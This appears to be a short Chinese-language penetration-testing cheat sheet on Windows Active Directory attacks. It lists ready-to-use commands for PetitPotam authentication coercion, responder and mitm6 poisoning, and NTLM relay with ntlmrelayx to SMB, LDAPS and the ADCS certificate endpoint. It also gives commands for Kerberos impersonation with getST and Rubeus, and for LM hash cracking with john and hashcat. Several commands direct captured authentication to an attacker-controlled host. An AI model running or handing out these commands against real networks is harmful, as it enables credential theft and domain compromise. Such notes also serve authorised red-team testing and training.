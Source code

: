 ### PetitPotam

```
PetitPotam.py  -d <domain> <listener_ip> <target_ip>
```

后续可以跟着adcs攻击

### 监听

```
responder -i eth0
mitm6 -d <domain>
```

## 无SMB签名 || 开启IPv6 || ADCS

### 1.MS08-068

```
use exploit/windows/smb/smb_relay 	#常用于windows2003 / windows server2008
responder -I eth0 # 记得先关闭本机的 smb 和 http 服务

ntlmrelayx.py -tf targets.txt 
```

### 2.mitm6 -i eth0 -d

```
ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug

ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug

ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access

getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

### 3.adcs

```
ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController

Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
```

## 8.拿到hash破解

#### 1.LM

```
john --format=lm hash.txt

hashcat -m 3000 -a 3 hash.txt
```
